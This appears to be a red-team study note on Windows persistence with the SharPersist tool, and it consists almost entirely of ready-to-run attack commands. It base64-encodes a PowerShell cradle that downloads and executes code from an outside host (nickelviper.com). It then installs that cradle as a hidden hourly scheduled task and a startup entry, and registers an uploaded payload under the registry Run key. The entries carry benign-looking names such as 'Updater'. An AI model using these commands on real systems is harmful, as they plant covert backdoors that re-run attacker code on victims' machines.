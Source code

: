 ## Task Scheduler

---

The Windows Task Scheduler allows us to create "tasks" that execute on a pre-determined trigger. That trigger could be a time of day, on user-logon, when the computer goes idle, when the computer is locked, or a combination thereof.

PowerShell:
``` powershell
$str = 'IEX ((new-object net.webclient).downloadstring("http://nickelviper.com/a"))'
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwBuAGkAYwBrAGUAbAB2AGkAcABlAHIALgBjAG8AbQAvAGEAIgApACkA
```

Linux:
```
set str 'IEX ((new-object net.webclient).downloadstring("http://nickelviper.com/a"))'
echo -en $str | iconv -t UTF-16LE | base64 -w 0
SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwBuAGkAYwBrAGUAbAB2AGkAcABlAHIALgBjAG8AbQAvAGEAIgApACkA
```

Create scheduled task with [[SharPersist#schtask]]
```
C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwBuAGkAYwBrAGUAbAB2AGkAcABlAHIALgBjAG8AbQAvAGEAIgApACkA" -n "Updater" -m add -o hourly
```

## StartUp Folder

---

Create a startup application with [[SharPersist#startupfolder]]
```
C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwBuAGkAYwBrAGUAbAB2AGkAcABlAHIALgBjAG8AbQAvAGEAIgApACkA" -f "UserEnvSetup" -m add
```


## Registry AutoRun

---

Create registry auto run with [[SharPersist#reg]]
```
cd C:\ProgramData
upload C:\Payloads\http_x64.exe
mv http_x64.exe updater.exe
C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add
```
